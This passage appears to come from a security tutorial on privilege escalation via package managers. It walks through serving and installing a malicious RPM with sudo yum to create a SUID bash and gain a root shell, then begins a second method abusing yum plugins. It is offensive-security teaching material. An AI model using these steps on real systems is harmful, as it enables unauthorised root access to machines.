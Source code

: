 ```sh
python3 -m http.server
```

on centos server:

```sh
wget http://192.168.125.10:8000/exploit-1.0-1.x86_64.rpm 
```

Once successfully downloaded we will install the package and the included script will be executed to create our
suid bash binary.

```sh
sudo yum localinstall -y exploit-1.0-1.x86_64.rpm

/tmp/bash -p
```

{{< image src="/img/package_manager_privesc/privesc-12.png" alt="" position="center" style="border-radius: 8px;" >}}

We have successfully gained a root shell.

### Method 2: Loading a custom yum plugin

Yum provides plugins that extend and enhance its operations. Certain plugins are installed by default. 
Yum always informs you which plugins, if any, are loaded and active whenever you call any yum command.

As shown below, when we run the yum update command we can see the loaded plugin.

{{< image src="/img/package_manager_privesc/privesc-17.png" alt="" position="center" style="border-radius: 8px;" >}}

From yum man page:

A plugin is a Python ".py" file which is installed in one of the directories specified by the `pluginpath` option in yum.conf. 

For a plugin to work, the following conditions must be met:

    1. The plugin module file must be installed in the plugin path as just described.
    2. The global plugins option in /etc/yum.conf must be set to '1'.
    3. A configuration file for the plugin must exist in 
       /etc/yum/pluginconf.d/<plugin_name>.conf and the enabled setting in this file 
       must set to '1'. The minimal content for such a configuration file is:

        [main]
        enabled = 1

From yum.conf man page, there are several plugin configurations that can be set:

- **plugins** 

	Either `0` or `1`. Global switch to enable or disable yum plugins. Default is `0` (plugins disabled). See the PLUGINS section of the yum(8) man for more information on installing yum plugins.
